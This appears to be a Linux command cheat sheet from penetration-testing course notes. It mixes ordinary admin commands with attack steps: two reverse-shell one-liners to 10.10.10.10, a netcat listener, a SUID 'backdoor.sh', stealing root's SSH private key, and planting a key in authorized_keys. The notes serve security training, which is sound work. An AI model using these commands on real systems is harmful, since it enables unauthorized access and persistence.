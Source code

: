 ## Linux

System info:
```bash
uname -a
hostnamectl
```

Hardware info:
```bash
lspci
lsusb
lsblk
```

Help:
```bash
man <command>
tldr <command>
apropos <keyword>
```

Session info:
```bash
whoami
who
id
pwd
env
ps
ps aux
```

Network info:
```bash
netstat -antp
ss
ss -lntp
nmap localhost
ip
ifconfig
```

VPN:
```
sudo openvpn lab.ovpn
```

SSH:
```bash
ssh <user>@<IP address>
ssh-keygen
scp -P <port> <user>@<IP address>:<file> <destination>
scp -P <port> <file> user>@<IP address>:<destination>
```

Files:
```bash
file test.txt
exiftool test.txt
stat test.txt
```

Listing:
```bash
ls
find / -name *passwd* 2>/dev/null
tree
locate <expression>
which <command>
# Config file created after `2020-03-03`, smaller than `28k` but larger than `25k`?
find / -type f -name *.conf -size +25k -size -28k -exec ls -la {} \; 2>/dev/null
# How many files exist on the system that have the .bak extension?
find / -type f -name *.bak 2>/dev/null | wc -l
```

Visualizing output:
```bash
cat something | more
cat something | less
cat something | head --lines 5
cat something | tail --lines 5
awk -F ',' {print $1}
sort
uniq
column -t
```

Substituting and grepping:
```bash
sed
tr ':' ' '
```

Grep:
```bash
grep
```

Counting:
```bash
wc -l
wc -c
```

HTTP requests:
```bash
wget http://inlanefreight.com
curl -LO http://inlanefreight.com
```

Permissions:
```bash
chmod
chown
# set SUID bit
chmod u+s backdoor.sh
```

Systemd:
```
systemctl
```

Crontab example:
```{bash eval=F}
crontab -l
```
```{bash eval=F}
# System Update (every six hours)
* */6 * * /path/to/update_software.sh

# Execute scripts (every first day of the month at midnight)
0 0 1 * * /path/to/scripts/run_scripts.sh

# Cleanup DB (every Sunday at midnight)
0 0 * * 0 /path/to/scripts/clean_database.sh

# Backups (every Sunday at midnight)
0 0 * * 7 /path/to/scripts/backup.sh
```

Web:
```{bash eval=F}
python3 -m http.server
python3 -m uploadserver
sudo php -S 0.0.0.0:80
```

Docker:
```bash
docker
```

RDP:
```bash
xfreerdp /v:10.10.14.2 /u:htb-student /p:HTBacademy
```

Firewall:
```bash
iptables
```

System logs:
```bash
ls /var/log
syslog
fail2ban
```


Netcat:
```{bash eval=F}
nc <ip_address> <port>      # Banner grabbing
nc -lvnp 4444               # Listening on port 4444 to catch reverse shell
```

Reverse shell:
```{bash eval=F}
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Upgrade TTY:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# CTRL+Z
stty -a     # see rows and columns
stty raw -echo; fg
# Enter, Enter
stty rows 59 columns 236
```


Hashes:
```{bash eval=F}
md5sum file.txt
```


#### SSH Keys

Finally, let us discuss SSH keys. If we have read access over the `.ssh` directory for a specific user, we may read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`, and use it to log in to the server. If we can read the `/root/.ssh/` directory and can read the `id_rsa` file, we can copy it to our machine and use the `-i` flag to log in with it:
```bash
vim id_rsa
chmod 600 id_rsa
ssh root@10.10.10.10 -i id_rsa
root@remotehost#
```
Note that we used the command `chmod 600 id_rsa` on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.

If we find ourselves with write access to a users `.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with `ssh-keygen` and the `-f` flag to specify the output file:
```{bash eval=F}
ssh-keygen -f key
```

This will give us two files: key (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:
```bash
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Now, the remote server should allow us to log in as that user by using our private key:
```bash
ssh root@10.10.10.10 -i key
root@remotehost#
```

